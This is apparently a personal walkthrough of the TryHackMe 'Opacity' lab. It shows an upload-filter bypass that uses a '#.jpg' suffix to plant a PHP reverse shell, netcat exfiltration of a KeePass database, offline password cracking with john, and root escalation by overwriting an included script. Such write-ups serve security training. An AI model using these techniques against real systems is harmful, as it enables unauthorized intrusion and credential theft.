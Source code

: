 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Opacity
# DESCRIPTION       . Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/opacity
```

```
sudo nmap -sSVC -T5 -p- 10.10.6.62 -oN opacity
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

#### PORT 80

- Nothing interesting and the login form didn't seem vulnerable to SQLi.

- I've decided to fuzz for hidden directories before wasting time on bruteforcing / more SQLi.

```
ffuf -u http://10.10.6.62/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
cloud                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

- In `/cloud` directory, we find a form that is enabling us to upload pictures to the storage solution from a link.

- We can create our own server to serve files for upload purposes ; 

- I tried uploading a `.php` reverse shell but it failed. 
- A `shell.php.jpg` bypassed the filter, but `shell.jpg.php` didn't. 

- At this point, I'm assuming that the shell is checking for the last extension only to be equal to `.jpg`. 

- I was able to bypass this by having the following files in my webserver directory

- `shell.php` - the reverse PHP shell
- `shell.php#.jpg` - the file we're using to tell the Storage Service to look for. 

- This is working because the filter is seeing the `.jpg` at the end, but `#` prevents it from actually getting appended to the filename, resulting in `shell.php` getting downloaded from the server instead.

- External link used to upload the `shell.php` file: `http://IP:8000/shell.php#.jpg`

- After getting a reverse shell, I've been able to locate the first flag in `/home/sysadmin/local.txt`. 

- However, I continued looking for different, out of the ordinary files/permissions/privilege escalation vectors and I came across `dataset.kdbx` when checking `/opt`. 

- After searching the file extension online, I found out that's the file format for the KeePass Password Manager.

- To make this process easier, the owner of the room installed `netcat` on the system, allowing us to transfer the file following the process:

**TARGET**

```
nc -N IP PORT < dataset.kdbx
```

**LOCALHOST**

```
nc -nvlp PORT > dataset.kdbx
```

- I was able to crack it using john as follows

```
/opt/john/run/keepass2john dataset.kdbx > dataset
```

```
/opt/john/run/john -w=/usr/share/wordlists/rockyou.txt dataset
```

```
7{REDACTED}3        (dataset)     
```

- After this, using `keepassxc-cli`, we can dump the content of the `.kdbx` file using

```
keepassxc-cli export dataset.kdbx > creds
```


```
...
<String>
	<Key>Password</Key>
	<Value ProtectInMemory="True">Cl{REDACTED}700</Value>
</String>

<String>
	<Key>UserName</Key>
	<Value>sysadmin</Value>
</String>
...

```

- So we got the credentials for `sysadmin`. We can SSH into the box.

- We know that the files uploaded to the site are being removed very quickly, but I couldn't find a cron scheduled to do this. 

- However, in `/home/sysadmin/scripts/` we find script.php which seems to do exactly that. 

- I assumed this is the same script that's doing the actual cleanup and not a copy and it is running under root or something, judging by the ownership.

```
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

- However, the script is including the `lib/backup.inc.php` file. It is owned by root, but the directory is owned by us, which means we can delete the file and replace it with another named the same, but with different content.

```
sysadmin@opacity:~/scripts/lib$ rm backup.inc.php 
rm: remove write-protected regular file 'backup.inc.php'? y

sysadmin@opacity:~/scripts/lib$ wget http://{...}:8000/shell.php     

sysadmin@opacity:~/scripts/lib$ mv shell.php backup.inc.php
```

- I've replaced `backup.inc.php` with the same reverse shell used earlier, renamed to `backup.inc.php`.

```
Connection received on 10.10.6.62 35302
# whoami
root
```

- The last flag is in `/root/proof.txt`.

____

**PS**

- After some research, I found out that `pspy` can be used to snoop on processes without root privileges.
- It also detects the `script.php` running.

```
2024/02/11 11:04:01 CMD: UID=0     PID=1888   | /usr/bin/php /home/sysadmin/scripts/script.php 
```